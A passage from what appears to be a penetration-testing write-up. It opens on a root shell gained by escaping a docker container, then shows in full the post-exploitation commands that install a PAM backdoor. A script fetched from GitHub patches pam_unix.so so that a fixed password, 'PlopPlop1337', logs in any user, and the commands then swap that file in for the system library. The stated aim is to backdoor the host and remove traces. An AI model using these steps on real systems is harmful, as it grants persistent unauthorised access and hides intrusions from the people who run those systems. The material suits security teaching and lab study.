 ```bash
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
root@webserver # id
uid=0(root) gid=0(root) groups=0(root)
```

<center>
![](/img/infosec_stuff/odie_gs/red_17.gif)
</center>

## Post exploitation

During post-exploitation, it's time for backdooring the system and remove all traces left behind.

### PAM backdoor

PAM means `Pluggable Authentication Modules`, in other words, and to be brief, it's the authentication mechanism in modern Linux systems. This mechanism is requested when you're using SSH, sudo or whatever.

Now, what would happen if we added a condition to the code? Something like: "If the password is equal to PlopPlop1337, then log me regardless of the user and the real password". Many blogs got articles about this kind of backdoor, there are even some GitHub to automate the process: https://github.com/zephrax/linux-pam-backdoor

First things to do, determine the PAM version used by the target system:

```bash
root@webserver $ dpkg -l | grep pam 
[...]
ii  libpam-modules:amd64          1.1.8-3.6                      amd64        Pluggable Authentication Modules for PAM
[...]

root@webserver $ wget https://github.com/zephrax/linux-pam-backdoor/archive/master.zip

root@webserver $ unzip master.zip 

root@webserver $ ./linux-pam-backdoor-master/backdoor.sh -v 1.1.8 -p PlopPlop1337

root@webserver $ mv /lib/x86_64-linux-gnu/security/pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so.bak

root@webserver $ mv pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so
```

The first `mv` is used to do a backup of the existing libary, in case of failure. It's simple, if I fail my backdoor installation, I will simply broke the authentication system.

Ok, the backdoor is installed, let's test:

<center>
![](/img/infosec_stuff/odie_gs/red_18.gif)
</center>
